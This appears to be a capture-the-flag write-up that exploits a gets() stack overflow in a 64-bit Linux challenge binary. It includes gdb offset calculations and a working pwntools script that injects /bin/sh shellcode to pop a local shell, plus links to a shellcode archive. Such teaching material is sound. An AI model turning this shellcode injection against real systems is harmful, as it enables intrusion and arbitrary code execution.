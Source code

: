 Let's take a look at the source code...

```
#include <stdio.h>
#include <string.h>

void nothing()
{
	char* buf0[50];
	printf("%p\n", &buf0);
	gets(buf0);
}

int main()
{
	printf("Even if you do hack this elf, what are you going to do?. You should really get back to research.\n");
	nothing();
}
```

So we can see that it suffers from the same buffer overflow vulnerabillity as the rest. However unlike the previous levels, there isn't anywhere in here that will print out "Level Cleared!". So we will have to somehow pop a shell and read the "out file". What we can do, is we can push our own shellcode (shellcode is precompiled assembly code that you can push onto a program of the same architecture, and it should be able to run) onto the stack than overwrite the rip register to execute the shellocde. So essentially we will be writing code to the program, than executing that code. We can see that the elf prints out the address of the buffer, so that is one less thing we have to worry about. The first thing we will need is to find out how many characters we will have to write to reach the rip register.

```
gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x0000000000400576 <+0>:	push   rbp
   0x0000000000400577 <+1>:	mov    rbp,rsp
   0x000000000040057a <+4>:	sub    rsp,0x190
   0x0000000000400581 <+11>:	lea    rax,[rbp-0x190]
   0x0000000000400588 <+18>:	mov    rsi,rax
   0x000000000040058b <+21>:	mov    edi,0x400658
   0x0000000000400590 <+26>:	mov    eax,0x0
   0x0000000000400595 <+31>:	call   0x400440 <printf@plt>
   0x000000000040059a <+36>:	lea    rax,[rbp-0x190]
   0x00000000004005a1 <+43>:	mov    rdi,rax
   0x00000000004005a4 <+46>:	mov    eax,0x0
   0x00000000004005a9 <+51>:	call   0x400460 <gets@plt>
   0x00000000004005ae <+56>:	nop
   0x00000000004005af <+57>:	leave  
   0x00000000004005b0 <+58>:	ret    
End of assembler dump.
gdb-peda$ b *nothing+56
Breakpoint 1 at 0x4005ae
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b4_64/b4_64 
Even if you do hack this elf, what are you going to do?. You should really get back to research.
0x7fffffffdcc0
75395128
```

One wall of text later...

```
gdb-peda$ x/s $rbp-0x190
0x7fffffffdcc0:	"75395128"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x4005ae in nothing; saved rip = 0x4005c9
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
```

So we have the addess of the buffer (0x7fffffffdcc0) and the rip register (0x7fffffffde58). Now to find the distance we need to reach it.

```
>>> 0x7fffffffdcc0 - 0x7fffffffde58
-408
```

So we will have 408 bytes untill we reach the rip register. So we have the offset, and the address that we want to write to. The last thing we will need is the shellcode. For shellcode you can either write it yourself, or look it up online. I typically get my shellcode from this website.

http://shell-storm.org/shellcode/

and a link to the exact shell code I'm using for this exploit

http://shell-storm.org/shellcode/files/shellcode-806.php

Now keep in mind, when you are picking/writing your shellcode you have to have the same binary architecture. We are currently dealing with a 64 bit linux elf, so if you are picking shellcode from that website it should be under the Linux/x86-64 category.

Now that we have our shellcode, the address of the buffer, and the offset we can write our exploit. We will have to adjust the filler we use to reach the rip register to allow room for the shellcode. The shellcode I am using is 27 bytes long, so my filler will be 408 - 27 = 381 characters long. However this time I will actually write a python script instead of just a one liner. The reason for this is the address of the buffer will change under certain circumstances, so it is better to read it every time you run the exploit instead of just hardcoding it in. For this exploit I used pwntools, because it is a really big help and takes care of a lot of the hassle for me. Here is my exploit.

```
#Import the pwntools library.
from pwn import *

#The process is like an actualy command you run, so you will have to adjust the path if your exploit isn't in the same directory as the challenge.
target = process("./b4_64")

#Just receive the first line, which for our purposes isn't important.
target.recvline()

#Store the address of the buffer in a variable, and strip away the newline to prevent conversion issues
address = target.recvline().strip("\n")

#Convert the string to a hexidecimal
address = int(address, 16)

#Pack the hexidecimal in little endian for 32 bit systems
address = p64(address)
print address
#Store the shellcode in a variable
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

#Make the filler to reach the eip register
filler = "0"*381

#Craft the payload
payload = shellcode + filler + address

#Send the payload
target.sendline(payload)

#Drop into interactive mode so you can use the shell
target.interactive()
```

Now let's try out the exploit...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b4_64$ python exploit.py 
[+] Starting local process './b4_64': Done
\x00��\xff\xff\x7f\x00\x00
[*] Switching to interactive mode
$ echo Is this working?
Is this working?
$ ls
Readme.md  b4_64  b4_64.c  exploit.py  out  peda-session-b4_64.txt
$ cat out
I see, you brough your own topics to research. Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b4_64' stopped with exit code 0
[*] Got EOF while sending in interactive
```

And just like that, we pwned the binary. 
